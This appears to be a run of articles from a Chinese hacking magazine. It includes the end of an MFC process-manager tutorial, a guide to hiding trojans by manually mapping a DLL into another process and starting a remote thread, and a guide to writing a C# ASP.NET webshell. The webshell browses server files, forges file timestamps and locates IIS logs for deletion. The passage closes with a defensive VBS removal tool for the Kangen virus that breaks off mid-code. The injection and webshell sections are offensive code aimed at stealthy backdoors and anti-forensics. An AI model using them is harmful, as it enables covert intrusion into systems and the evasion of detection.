

图6

在 `C*Dlg.cpp` 中的 `OnInitDialog()` 对话框初始化函数中添加如下代码：

```cpp
::SetWindowPos(GetSafeHwnd(), HWND_TOPMOST, 0, 0, 0, 0, SWP_NOMOVE | SWP_NOSIZE);
// 添加3个列
int ret = m_ctrlProcesses.InsertColumn(0, "进程名称", LVCFMT_RIGHT, 100, 0);
m_ctrlProcesses.InsertColumn(1, "进程标识", LVCFMT_LEFT, 60, 1);
m_ctrlProcesses.InsertColumn(2, "应用程序所在路径", LVCFMT_LEFT, 350, 2);

// 设置列表控件背景色
m_ctrlProcesses.SetBkColor(RGB(200,150,250));
m_ctrlProcesses.SetTextBkColor(RGB(200,150,250));
Refresh();

h = LoadLibrary("user32.dll");
p = (LPFNDLFFUNC1)GetProcAddress(h, "AnimateWindow");
p(m_hWnd, 500, AW_VER_POSITIVE | AW_SLIDE);
FreeLibrary(h);
```

```cpp
void CTaskDlg::Refresh()
{
    m_ctrlProcesses.DeleteAllItems();
    // 以下是提升权限的代码，权限很高的
    DWORD aProcesses[1024];

    // 获得所有进程
    DWORD cProcesses = GetProcessIDs(aProcesses, sizeof(aProcesses));
    DWORD idxList = 0;
    for(DWORD idx = 0; idx < cProcesses; idx++)
    {
        CString sName = GetProcessBaseModuleName(aProcesses[idx]);
        if(sName.IsEmpty())
            continue;

        CString sPID;
        sPID.Format("%d", aProcesses[idx]);
        m_ctrlProcesses.InsertItem(idxList, sName);
        m_ctrlProcesses.SetItemText(idxList, 1, sPID);
        m_ctrlProcesses.SetItemText(idxList, 2, GetProcessPath(aProcesses[idx]));
        m_ctrlProcesses.SetItemData(idxList, aProcesses[idx]);
        idxList++;
    }
}
```

关闭 privilege，不然你就关闭不了你的计算机了。

图7所示。回到对话框编辑，双击“结束任务”按钮添加如下代码：



```cpp
void CTaskDlg::OnBstop()
{
    // TODO: Add your control ...
    // 以下是提升权限的代码，权限很高的
    // 记住关闭，做事情要有始有终！

    POSITION pos = m_ctrlProcesses.GetFirstSelectedItemPosition();
    char strId[20];
    if (pos == NULL)
    {
        AfxMessageBox("请先选择你要结束的进程！", MB_ICONINFORMATION);
        return;
    }
    while (pos != NULL)
    {
        int nItem = m_ctrlProcesses.GetNextSelectedItem(pos);
        m_ctrlProcesses.GetItemText(nItem, 1, strId, 20);
        TerminateProcessID(atol(strId));
        if (pos == NULL)
            break;
    }
    ::Sleep(300);
    Refresh();
    // 关闭 privilege.
}
```

回到对话框编辑，双击“新建任务”按钮添加如下代码：

```cpp
void CTaskDlg::OnNew()
{
    // TODO: Add your control ...
    // 新建一个线程，创建打开文件对话框
    CString strFileName;
    CFileDialog fd(TRUE, NULL, NULL,
        OFN_HIDEREADONLY | OFN_OVERWRITEPROMPT,
        "Executable files (*.exe)|*.exe|All files (*.*)|*.*|");
    if(fd.DoModal() == IDOK)
    {
        strFileName = fd.GetPathName();
    }

    char* buf;                // 子进程窗口参数
    STARTUPINFO infoStart;    // 子进程信息
    ...
    // 创建子进程
    CreateProcess(
        NULL, buf, NULL, NULL, FALSE,
        NORMAL_PRIORITY_CLASS,
        NULL, NULL, &infoStart, &infoProcess);
    ::Sleep(1000);   // 刷新进程显示列表
    Refresh();
}
```

上面用到了 CFileDialog 类，它的构造函数如下：

```cpp
CFileDialog(BOOL bOpenFileDialog, LPCTSTR lpszDefExt = NULL,
            LPCTSTR lpszFileName = NULL,
            DWORD dwFlags = OFN_HIDEREADONLY | OFN_OVERWRITEPROMPT,
            LPCTSTR lpszFilter = NULL, CWnd* pParent = NULL);
```

各参数的意义如下：bOpenFileDialog 为 TRUE 为显示打开文件对话框，FALSE 为保存对话框；lpszDefExt 指定默认文件扩展名；lpszFileName 指定默认文件名；dwFlags 指明特定风格。

- lpszFilter：最重要的一个参数，指明可以选择的文件类型和相应扩展名。格式如：  
  `"Executable files (*.exe)|*.exe|All files (*.*)|*.*|"`

函数 CreateProcess() 用于创建新的进程和该进程的主线程。函数原型如下：

```cpp
BOOL CreateProcess(
    LPCTSTR lpApplicationName,
    LPTSTR lpCommandLine,
    LPSECURITY_ATTRIBUTES lpProcessAttributes,
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    BOOL bInheritHandles,
    DWORD dwCreationFlags,
    LPVOID lpEnvironment,
    LPCTSTR lpCurrentDirectory,
    LPSTARTUPINFO lpStartupInfo,
    LPPROCESS_INFORMATION lpProcessInformation
);
```

指向 `LPPROCESS_INFORMATION` 结构的指针，用于获取子进程的信息。函数成功返回非零值。关机按钮添加如下代码：

```cpp
void CTaskDlg::OnBnShutdown()
{
    // TODO: Add your control ...
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    SHUTDOWNDLG ShutDownDialog;
    if(hInst != NULL)
    {
        ShutDownDialog = (SHUTDOWNDLG)GetProcAddress(hInst, (LPSTR)60);
        ShutDownDialog(0);
    }
    FreeLibrary(hInst);
}
```

好了，F7 编译。没有错的话就可以运行了，看看是不是可以一次结束多个程序。至于想专业一点，可以加入热键等，那样就更方便、更好了。

适合读者：程序设计者、木马编写爱好者  
前置知识：C++基础，Windows下编程经验

## 让你的木马藏得更深
### ——线程注射技术新发展（上）

文/图 BlackBeast



##### 简介

2005年《黑客防线》上连续刊登若干有关线程注射隐藏自身的木马编写技术，讨论主要集中在如何将线程函数代码写入注入进程并正确创建远程线程上。创建远程线程时主要有两个难点：

- 1. 如果直接将代码写入注入进程，写入代码中的所有API必须使用 `GetProcAddress` 获取函数指针间接调用，必要时还需要 `LoadLibrary`，代码编写复杂且枯燥。  
- 2. 如果采用在注入进程加载DLL的方式，通过加载过程中的 `DllMain` 调用来完成执行目标代码，在 `DllMain` 中无法进行开启新线程的操作，而且该远程线程必须依靠该DLL存在，增加了被发现的可能。

前几天在网上闲逛，看到一个牛人写的开启远程线程的Demo，完美解决了上面两个问题。于是整理学习笔记与大家分享，并感谢局部变量先生对本文的帮助。本文讲解的技术很大程度上降低了线程插入式后门的编写难度，也在一定程度上提高了后门的隐蔽性。

##### 程序原理

大家在编写程序的过程中，经常要加载各种DLL。当一个DLL被加载到某进程地址空间后，其所有函数就可以被该进程直接调用。这是因为系统在加载DLL模块时会做相应处理。只要把远程线程函数写入某DLL并替系统完成目标进程加载该DLL的过程，就可以轻松编写远程线程函数代码，又不用带着以前的DLL小尾巴。为了替系统完成重定位函数地址和重新加载隐式DLL模块，你至少需要了解PE文件的重定位段和导入段；而为了获得远程线程函数地址，你还需要了解导出段的相关知识。

##### 前置基础知识

要想代替系统手动完成加载DLL的工作，必须对DLL的结构有一定了解。下面介绍PE文件结构：PE文件格式被组织为线性数据流，由MS-DOS头部开始，接着是一个实模式程序残余、PE文件标志、PE文件头、可选头、段头部以及段实体，文件结束区域还包含重分配信息、符号表、行号信息及字符串表等。

| 结构项 |
|---|
| MS-DOS头部 |
| MS-DOS实模式残余程序 |
| PE文件标志 |
| PE文件头 |
| PE文件可选头部 |
| .text段头部 |
| .bss段头部 |
| .rdata段头部 |
| …… |
| .debug段头部 |
| .text段 |
| .bss段 |
| .rdata段 |
| …… |
| .debug段 |

## MS-DOS头部

MS-DOS头部最重要的成员变量是 `e_lfanew`，这是一个偏移量，通过它可以找到PE头结构地址。PE文件标志、PE文件头、PE文件可选头部都属于该结构。

```c
typedef struct _IMAGE_NT_HEADERS {
    DWORD Signature;
    IMAGE_FILE_HEADER FileHeader;
    IMAGE_OPTIONAL_HEADER32 OptionalHeader;
} IMAGE_NT_HEADERS32, *PIMAGE_NT_HEADERS32;
```

## PE文件头

PE文件头信息多为高级控制信息，供操作系统或应用程序决定如何处理该文件。例如目标机器类型（Alpha、MIPS R4000、Intel x86等）。另一个有用入口是 `NumberOfSections` 字段，用于表示该PE文件包含多少段头部和段实体。

## PE文件可选头

PE文件可选头部虽然称作“可选”，但实际上是必须的。该结构分成标准域和NT附加域两部分。

NT附加域主要是一些Windows系统装载DLL所需的版本号、内存对齐长度等相应信息。

在NT附加域中最重要的是一个IMAGE_DATA_DIRECTORY结构对象的数组。每个数组成员指定了对应段头部的尺寸和相对虚拟地址。PE文件的段头部都与该数组有着固定的一一对应关系，如果需要定位一个特定的段头部，就需要从可选头部中的IMAGE_DATA_DIRECTORY数组中找到对应该段的数据元素，并从该元素中获得所需段头部的偏移地址，然后使用该偏移量定位段头部，进而就可以访问该段中数据了。

IMAGE_DATA_DIRECTORY数组共有16项，目前使用11项。接下来是我们重点介绍的对象：本程序相关的三个段，重定位段、导出段、导入段。

| 表项 | 内容 |
|---|---|
| 第一个重定位表项 | 页地址；该表项大小；数据项一(0x32d4，有效)；数据项二(0x3859，有效)；数据项三(0x3a56，有效)；数据项四(0x0015，无效) |
| 第二个重定位表项 | 页地址；该表项大小；数据项一(0x32e4，有效)；数据项二(0x35f9，有效)；数据项三(0x3675，有效) |

###### 重定位段

众所周知，将函数的调用编译成汇编语言就是如下格式：

```text
function(7);
0042801E  push  7
00428020  call  function(415F14h)
```

而由于同一个DLL在不同的进程中加载的基地址不同，所以同一个函数在不同进程中的入口地址也不同，重定位表就是为了解决这个问题而设计的。在PE文件可选头部有一个ImageBase变量用来标识该DLL加载到进程地址空间中的首选基地址，该DLL中的函数偏移量是根据该地址计算得出的（ImageBase+函数在DLL中的相对偏移量）。在加载过程中，如果无法将该DLL顺利加载到ImageBase处，则需要修改所有函数地址……重定位表的作用就是确定各个函数入口地址保存在内存中的位置，通俗地说就是确定哪里需要更改。

重定位表头结构如下：

```c
typedef struct _IMAGE_BASE_RELOCATION {
    DWORD VirtualAddress;
    DWORD SizeOfBlock;
} IMAGE_BASE_RELOCATION;
```

实际上，每个重定位表项除了这个表头外，后面还跟着若干数据项，具体项数由SizeOfBlock标示。每个数据项就是一个USHORT，其中高4位字段用来标记该数据项是否有效：如高4位为0，则为无效数据，仅用来对齐；为3则代表有效的数据项。低12位用来存储偏移地址……一个内存页中的全部需要更改的数据地址都包含在一个重定位表项中，所以每个数据项只保存页内偏移地址即可，其对应内存页的起始地址由VirtualAddress保存。

我们构建一个包含两个重定位表项的重定位表，第一个表项有3个数据项（含一个无效对齐项），第二个表项有4个数据项，如上表所示。

###### 导出段

下面介绍导出段，它包含了DLL的导出数据，主要是该DLL提供的全部可供加载者调用函数的相关信息。

在Windows系统中是这样定义导出段结构体的：

```c
typedef struct _IMAGE_EXPORT_DIRECTORY {
    DWORD Characteristics;
    DWORD TimeDateStamp;
    WORD  MajorVersion;
    WORD  MinorVersion;
    DWORD Name;
    DWORD Base;
    DWORD NumberOfFunctions;
    DWORD NumberOfNames;
    DWORD AddressOfFunctions;
    DWORD AddressOfNames;
    DWORD AddressOfNameOrdinals;
} IMAGE_EXPORT_DIRECTORY, *PIMAGE_EXPORT_DIRECTORY;
```

导出目录中的Name域标识了可执行模块的名称。NumberOfFunctions域和NumberOfNames域表示模块中有多少导出的函数以及这些函数的名称。

AddressOfFunctions域指向一个数组，该数组存储着DLL全部导出函数的入口地址；AddressOfNames域指向另一个数组，该数组用来存储全部导出函数的函数名。AddressOfNameOrdinals也是一个数组的首地址偏移量，它存储的是特定函数名函数的入口地址在导出函数入口列表数组中的位置……三个AddressOf...域是当模块装载后，进程地址空间中的偏移量，一旦模块被装载，要获得某数据在进程地址空间中的确切地址，只需在对应的偏移量上加上模块的基地址。

###### 导入段

下面我们来介绍导入段，这个段的作用是协助进程解决隐式加载DLL中包含的函数在本DLL中的调用问题。

如在某DLL中需要调用如CreateFile之类的Windows API，此DLL被加载后，确定该API在加载此DLL进程中的入口地址位置就需要导入段的协助。

首先给出导入段在Windows中的结构定义：

```c
typedef struct _IMAGE_IMPORT_DESCRIPTOR {
    union {
        DWORD Characteristics;
        DWORD OriginalFirstThunk;
    };
    DWORD TimeDateStamp;
    DWORD ForwarderChain;
    DWORD Name;
    DWORD FirstThunk;
} IMAGE_IMPORT_DESCRIPTOR;
```

导入段由该结构对象构成的数组组成，每个结构对象对应一个本DLL需要的DLL文件，整个输入表以一个Characteristics字段为0的IMAGE_IMPORT_DESCRIPTOR结束。

其中Name字段是一个指向DLL名称的偏移地址，而OriginalFirstThunk和FirstThunk对应一个由IMAGE_THUNK_DATA组成的数组的偏移地址。每一个IMAGE_THUNK_DATA对应从该DLL引入的一个函数，下面是IMAGE_THUNK_DATA的结构定义：

```c
typedef struct _IMAGE_THUNK_DATA32 {
    union {
        DWORD ForwarderString;
        DWORD Function;
        DWORD Ordinal;
        DWORD AddressOfData;
    } u1;
} IMAGE_THUNK_DATA32;
```

这个结构体定义十分晦涩，但它与一个DWORD变量等价。当这个变量的最高位为1时，表示本函数是以序号的形式引入的，变量低16位就是该序号的值；为0时代表本函数是以函数名的形式引入的，且此DWORD是一个偏移量，指向一个IMAGE_IMPORT_BY_NAME结构。IMAGE_IMPORT_BY_NAME结构定义如下：

```c
typedef struct _IMAGE_IMPORT_BY_NAME {
    WORD Hint;
    BYTE Name[1];
} IMAGE_IMPORT_BY_NAME;
```

其中Name[1]是一个变长数组，保存的是函数名。看到这里大家也许会奇怪，既然OriginalFirstThunk和FirstThunk有相同的内容，为什么还要重复出现呢？这是因为在DLL被加载之后，OriginalFirstThunk的内容不会变，而FirstThunk的内容就会变成相应函数在该进程中对应的地址。

##### 程序分析

下面进行程序分析，程序分成以下几个步骤：

- 1. 将DLL文件映射到内存中；
- 2. 获得所需要插入的进程的ID号，并在该进程中分配空间；
- 3. 根据重定位表更改目标DLL中的相关函数地址；
- 4. 将更改后的DLL映像拷贝到目标进程的地址空间；
- 5. 准备远程线程函数所需的参数；
- 6. 根据导出表获得远程线程函数的入口地址；
- 7. 开启远程线程；
- 8. 根据导入表内容，获得远程线程所需的系统API地址。

## 映射DLL&寻找进程

对应着步骤一和步骤二，这两个过程相对简单，只需要使用OpenProcess()、VirtualAllocEx()等几个Windows的简单系统调用即可，不再赘述。

###### 更改函数地址

该过程比较复杂，需要参考前面介绍的重定位表的相关知识，结合代码分析如下：

```c
void InjectTool::ReLoadImage(PBYTE pImage, PBYTE pRelocTbl, DWORD dwRelocOffset)
{
    DWORD dwRva = 0, dwRvaCount = 0;
    WORD* arrOffset = NULL;
    PIMAGE_BASE_RELOCATION pImageBaseRelocation = (PIMAGE_BASE_RELOCATION)pRelocTbl;
    while(pImageBaseRelocation->VirtualAddress != NULL)
    {
        arrOffset = (WORD*)(pRelocTbl + sizeof(IMAGE_BASE_RELOCATION));
        dwRvaCount = (pImageBaseRelocation->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / 2;
        for(DWORD i=0; i<dwRvaCount; i++)
        {
            dwRva = arrOffset[i];
            if((dwRva & 0xf000) == 0x3000)
            {
                dwRva &= 0x0fff;
                dwRva += pImageBaseRelocation->VirtualAddress + (DWORD)pImage;
                *(DWORD*)dwRva += dwRelocOffset;
            }
        }
        pRelocTbl += pImageBaseRelocation->SizeOfBlock;
        pImageBaseRelocation = (PIMAGE_BASE_RELOCATION)pRelocTbl;
    }
}
```

此外说一下这个函数调用的参数 `dwRelocOffset = (DWORD)pInjectPos - this->pImageNtHeader->OptionalHeader.ImageBase`，也就是该DLL默认加载地址和程序实际在目标进程分配空间的首地址的差。这个过程就是进程LoadLibrary的过程之一。

这里顺便介绍第四和第五步。第四步比较简单，不再赘述。至于第五步参数的准备，在第三步完成后，重定位表就已经没有任何作用了，故参数就可以写在原来重定位表所在的地址空间，不必分配新的空间。

###### 获得线程函数地址

该过程需要参考导出表相关知识，结合代码分析如下：

```cpp
DWORD InjectTool::GetEnterPoint(PBYTE pImage)
{
    DWORD dwEntry = 0, index = 0;
    IMAGE_EXPORT_DIRECTORY* pImageExportDirectory = ...;
    DWORD* pNameTbl = ...; // 定位导出表的地址
    for(index=0; index<pImageExportDirectory->NumberOfNames; index++, pNameTbl++)
    {
        if(strcmp("ThreadEntry", (char*)(pImage + (*pNameTbl))) == 0)
        {
            index = ((WORD*)(pImage + pImageExportDirectory->AddressOfNameOrdinals))[index];
            dwEntry = ((DWORD*)(pImage + pImageExportDirectory->AddressOfFunctions))[index];
            break;
        }
    }
    return dwEntry; // 返回函数地址
}
```

###### 开启远程线程

开启远程线程十分简单，在前几步工作完成的基础上直接调用如下API即可：

```cpp
CreateRemoteThread(hProcess, NULL, 0, pEntry, pParam, 0, NULL);
```

## 更改远程线程所需的系统API地址

这个过程必须在远程线程开启后、在目标进程地址空间里完成，以便获得目标进程中相应函数的入口地址。该过程需要用到 `LoadLibrary` 和 `GetProcAddress` 两个API。这两个API都存在于 `Kernel32.dll` 中，通常在各进程中的入口地址一致，因此可以在远程线程中较容易获得其地址。下面结合代码说明：

```cpp
BOOL LoadImportFx(LPBYTE pBase, FxLoadLibrary fnLoadLibrary, FxGetProcAddr fnGetProcAddr)
{
    PIMAGE_DOS_HEADER pImageDosHeader = (PIMAGE_DOS_HEADER)pBase;
    PIMAGE_NT_HEADERS pImageNtHeader = ...;
    for(PIMAGE_IMPORT_DESCRIPTOR pImageImportDescriptor = ...; pImageImportDescriptor->OriginalFirstThunk != 0; pImageImportDescriptor++)
    {
        HMODULE hDll = fnLoadLibrary((LPCSTR)(pBase + pImageImportDescriptor->Name));
        if(hDll == NULL) return FALSE;
        ...
    }
    return TRUE;
}
```

```cpp
{
    HMODULE hDll = fnLoadLibrary((LPCSTR)(pBase + pImageImportDescriptor->Name));
    if(hDll == NULL) return FALSE;

    PIMAGE_THUNK_DATA pOrigin = (PIMAGE_THUNK_DATA)(pBase + pImageImportDescriptor->OriginalFirstThunk);
    PIMAGE_THUNK_DATA pFirst  = (PIMAGE_THUNK_DATA)(pBase + pImageImportDescriptor->FirstThunk);

    while(pOrigin->u1.Ordinal != 0)
    {
        LPCSTR pFxName = NULL;
        if(pOrigin->u1.Ordinal & IMAGE_ORDINAL_FLAG)
            pFxName = (LPCSTR)IMAGE_ORDINAL(pOrigin->u1.Ordinal);
        else
            pFxName = (LPCSTR)((PIMAGE_IMPORT_BY_NAME)(pBase + pOrigin->u1.AddressOfData))->Name;

        pFirst->u1.Function = (DWORD)fnGetProcAddr(hDll, pFxName);
        if(pFirst->u1.Function == NULL) return FALSE;

        pOrigin++;
        pFirst++;
    }
    return TRUE;
}
```

这就是获得所需调用函数入口地址的全部过程。

###### 远程线程

最后谈谈远程线程，我们可以在远程线程中像书写正常代码一样书写任何代码。我在其中尝试了MessageBox调用和开启新线程操作，都可以正常调用。

##### 小结

文章写到这里可以结束了。使用此法给远程线程函数的编写带来极大方便，但仍存在一些缺陷，主要是 `CreateRemoteThread` 已被多数IDS作为判断后门程序的标志。若要编写更安全的后门程序，必须绕开这个API调用。后续将介绍几种全新的远程线程开启方式。

适合读者：木马爱好者

前置知识：ASP.NET 编程基础

#### 用 C# 编写网页木马

文／华农、wolf4652

像我们这些学黑客的，怎么可能没有自己的个人版 Webshell 呢？看着海洋某某、冰狐某某是不是心痒呢，今天我就用 C# 示范一下怎么编写自己的 Webshell。

##### 引言

ASP.NET 是目前主流的网页开发语言。ASP.NET 网页主要有两种编程模型：一种将 HTML 代码放入扩展名为 .aspx 的网页中，而将代码放入 .aspx.cs 的文件中，这些叫做代码隐藏类。当然也可以像传统的 ASP 一样编写嵌入的代码，两种方法在性能上基本没有差别。而今天我要讲的主要是后者，原因嘛，我们在上传马的时候多个文件上传总不是太方便。

现在开始我们的第一个例子，主要是让大家熟悉一下 ASP.NET 的编程。代码如下，作用就是在网页上输入 hello,hacker defense。

```csharp
<%@ Page language="C#" %>
<html>
<head>
<script language="C#" runat="server">
private void Page_Load(object sender, EventArgs e)
{
    Response.Write("hello,hacker defense");
}
</script>
</head>
</html>
```

相信对 ASP 较为熟悉的一看就懂，这里不多解释。

##### 设计

- 我们今天要设计的木马具有以下几个功能：
  1. 取得物理路径
  2. 能够查看物理路径里的文件夹及文件
  3. 能够查看文件的属性信息
  4. 能够修改文件的属性信息
  5. 能够上传文件到任意目录
  6. 能够具有删除 IIS 日志功能
  7. 有查看源文件的功能

首先介绍我们今天的主角，File 类和 Directory 类，这两个类只拥有静态方法。

下面是 File 类的主要静态方法，如表 1 所示。

| 方法 | 说明 |
|---|---|
| GetAttributes | 获取在此路径上的文件的属性 |
| OpenText | 打开现有文本文件以进行读取 |
| GetCreationTime | 返回指定文件或目录的创建日期和时间 |
| GetLastAccessTime | 返回上次访问指定文件的日期和时间 |
| GetLastWriteTime | 返回上次写入指定文件或目录的日期和时间 |
| SetCreationTime | 设置创建该文件的日期和时间 |
| SetLastAccessTime | 设置上次访问指定文件的日期和时间 |
| SetLastWriteTime | 设置上次写入指定文件或目录的日期和时间 |

下面是 Directory 类的主要静态方法，如表 2 所示。

| 方法 | 说明 |
|---|---|
| GetFiles | 返回指定目录中的文件名称 |
| GetDirectories | 获取指定目录中子目录的名称 |

第一步是要获得物理路径，代码如下：

```csharp
private void Page_Load(object sender, System.EventArgs e)
{
    if(!this.IsPostBack)
    {
        this.labelPhysicalPath.Text = this.Server.MapPath("/");
        this.Calendar1.TodaysDate = DateTime.Now;
    }
}
```

我们用 Server 对象的方法 MapPath 来取得当前文件的路径，注意这只是路径，并没有文件名。

```csharp
private void btnDirectory_Click(object sender, System.EventArgs e)
{
    try
    {
        this.ListBox1.DataSource = System.IO.Directory.GetDirectories(this.textBoxPhysicalPath.Text);
        this.ListBox2.DataSource = System.IO.Directory.GetFiles(this.textBoxPhysicalPath.Text);
        this.ListBox1.DataBind();
        this.ListBox2.DataBind();
    }
    catch(Exception ex)
    {
        this.labelErrorMess.Text = ex.ToString();
    }
}
```

再就是修改文件属性，这里我加了一个 Calendar 控件，便于取得要修改的日期，代码如下：

```csharp
private void btnChangeAttr_Click(object sender, System.EventArgs e)
{
    try
    {
        int index = this.RadioButtonList1.SelectedIndex;
        ...
        switch(index)
        {
            case 0:
                System.IO.File.SetCreationTime(this.textBoxFileName.Text,
                    this.Calendar1.SelectedDate);
                break;
            case 1:
                System.IO.File.SetLastAccessTime(this.textBoxFileName.Text,
                    this.Calendar1.SelectedDate);
                break;
            case 2:
                System.IO.File.SetLastWriteTime(this.textBoxFileName.Text,
                    this.Calendar1.SelectedDate);
                break;
            default:
                break;
        }
        ...
    }
    catch(Exception ex)
    {
        this.labelErrorMess.Text = ex.ToString();
    }
}
```

图 1

观看源代码，值得一提的是 IIS 的日志默认是保存在 `X:\WINDOWS\system32\LogFiles\W3SVC1` 文件夹下，而且保存格式为 `exyyMMdd.log`，如 `ex051230.log`。

> 我们编写的嵌入代码页可以很好地在 IIS 中运行，但是 VS.NET 中却对这种编程模型的支持有限（它只支持代码后置），但我们完全可以发挥主观能动性将其改之为自己所用，那就是先用 VS.NET 生成代码，然后再将代码后置文件中的代码粘贴到 `<script></script>` 中去就行了。

文章到此结束，相信大家看完本文后触类旁通，能写出更好的木马。

Socket，在病毒日益猖獗的网络时代，杀毒软件自然成了我们的常备安全工具。当新病毒出现时，你的选择是苦苦等待新的杀毒软件赶快出现，还是马上动手做一个属于自己的专杀工具呢？不愿等待的就跟我来吧……

- 适合读者：VBS 脚本爱好者
- 前置知识：VBS 代码基础知识，注册表基础知识

#### 用 VBS 打造 Kangen 病毒专杀工具

文/图：奚罡

最近，Kangen 病毒在我们学校里流传得很是猖獗，它通过 U 盘和 MP3 感染了许多无辜同学的电脑，并且目前还没有一种杀毒软件可以很好地直接清除它。许多同学无奈选择了重装系统。重装系统固然管用，但我们何不借此机会学以致用，打造一个属于自己的病毒专杀工具呢？

首先我们得了解感染 Kangen 病毒后的症状：

- 症状 1：任务管理器和注册表编辑器被锁定。
- 症状 2：在 `Windows/system32/` 下生成 `Winword.exe` 和 `Winlog.dat` 两个隐藏的系统文件，并在每个盘的根目录下生成文件名为 `kangen.exe`，图标为 Word 文档图标，打开后为一段英文歌词文件。
- 症状 3：开始菜单的“开始”变成了滚动的 “Kurima suratmu tlah kubaca dan aku mengerti”（socket：很诡异的发作方式……）
- 症状 4：解锁任务管理器后（解锁代码后面详细给出），发现进程里在没有 Word 文件被使用时，出现 `Winword.exe` 进程，关闭此进程后开始菜单恢复正常。
- 症状 5：解锁注册表编辑器后，发现在注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 下生成 “OSA”=`%System%\winword.exe` 和 “LoadService”=`Rest In Peace` 两个键值。

有了症状我们现在来“对症下药”：首先我们来恢复注册表编辑器和任务管理器，其主要思路是修改对应注册表项中的键值，关键代码如下（由于在源代码文件中有详细注释，这里就只列出关键代码，程序在 WINXP 下编译通过）。

```vb
Set wso = WScript.CreateObject("WScript.Shell")

wso.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System\DisableRegistryTools", 0, "REG_DWORD"   '恢复注册表编辑器
wso.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System\DisableTaskMgr", 0, "REG_DWORD"          '恢复任务管理器
```

关掉 Winword.exe 这个进程，为以后删除这个文件做准备：

```vb
strSQL = "SELECT * FROM Win32_Process"  ' 定义可以使用的查询
Set oWMI = GetObject("winmgmts://./root/cimv2")  ' 获取对象
Set oProcs = oWMI.ExecQuery(strSQL)  ' 执行刚才的查询，以确定进程中的项目
For Each oProc In oProcs  ' 列出所有当前进程
...
If 发现病毒winword.exe进程 Then oProc.Terminate
```

接着去除 Winword.exe 和 Winlog.dat 的系统隐藏属性，并将其删除。关键代码如下：

```vb
